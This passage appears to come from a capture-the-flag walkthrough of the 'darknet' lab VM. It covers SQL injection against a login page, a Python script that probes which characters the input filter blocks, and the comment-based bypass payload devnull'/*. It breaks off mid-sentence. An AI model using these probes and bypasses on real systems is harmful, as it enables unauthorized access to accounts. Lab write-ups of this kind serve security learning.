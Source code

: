 Hrmm.. a virtual host configuration. I added `192.168.56.106 888.darknet.com` to my local `/etc/hosts` and then pointed my browser to `888.darknet.com` to be presented with this:

![image](https://i.imgur.com/PcMHBLd.png)

Initial thoughts are SQLi, so I started with some simple SQL injections to see if my hunch is correct. Entering a username like `' or '1'='1` yields an _Ilegal_\[sic\] message. So this means two things: 1) SQLi is very probably here becasue 2) our input is filtered. I didn't fancy working out what chars I can and can't use so I made a script to do that for me

```python
#!/usr/bin/python

import requests
import string
import re

def testit(c):
    url = 'https://888.darknet.com/index.php'
    payload = 'username=%s&password=%s&Action=Login' % (c, c)

    r = requests.post(url, data=payload)
    m = re.search('.*Ilegal.*', r.text)
    if m:
        print '%s\tIllegal' % c
    else:
        print '%s\t OK' % c

for c in string.punctuation:
    testit(c)
```

which yielded the following as illegal characters.

```sourceCode
,   Illegal
-   Illegal
;   Illegal
<   Illegal
=   Illegal
>   Illegal
```

everything else was fair game. Well almost everything, some SQL commands aren't allowed either. But I've got enough to work with. I have a good idea that `devnull` is a valid user, so I'll try to use that info. I enter `devnull'/*` as a username hoping I am creating a query like `SELECT * FROM users WHERE username='devnull'/* AND password='xxxx';`. Hitting the login button confirms my input is correct.

I should mention here that the VM has a bug in it so that even if you get the sqli right, it will redirect you back to `index.php`. Noticed this in Burp as it was redirection to `main.php` after the correct SQLi, but then going back to `index.php`. A full reinstall of the VM will fix this, or reverting to an earlier snapshot will also work.

Ok, so now I get
